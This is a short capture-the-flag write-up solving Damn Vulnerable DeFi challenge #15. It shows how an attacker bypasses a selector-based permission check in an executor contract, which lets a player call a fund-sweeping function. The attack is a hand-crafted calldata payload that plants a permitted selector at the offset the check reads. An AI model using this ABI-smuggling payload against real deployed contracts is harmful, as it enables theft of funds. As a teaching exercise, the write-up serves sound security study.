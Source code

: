 
## Damn Vulnerable Defi #15 solution**

Deployer has the permission to access the function selector `0x85fb709d` (sweepFunds).
Player has the permission to access the function selector `0xd9caed12` (withdraw).
`sweepFunds` and `withdraw` functions have `onlyThis` modifier so we can only call the functions through `execute` function in `AuthorizedExecutor.sol`.

This test let the contract authorize the player to do `sweepFunds` without the permission by adding `d9caed12` in the calldata.

By adding `d9caed12` in the calldata, the player can pass this condition.
```
if (!permissions[getActionId(selector, msg.sender, target)]) {
  revert NotAllowed();
}
```

The normal calldata.
```
0x1cff79cd
000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f0512
0000000000000000000000000000000000000000000000000000000000000040
0000000000000000000000000000000000000000000000000000000000000044
85fb709d0000000000000000000000003c44cdddb6a900fa2b585dd299e03d12fa4293bc0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa300000000000000000000000000000000000000000000000000000000
```


The modified calldata.
```
0x1cff79cd
000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f0512
0000000000000000000000000000000000000000000000000000000000000080
0000000000000000000000000000000000000000000000000000000000000000
d9caed1200000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000044
85fb709d0000000000000000000000003C44CdDdB6a900fa2b585dd299e03d12FA4293BC0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa300000000000000000000000000000000000000000000000000000000
```
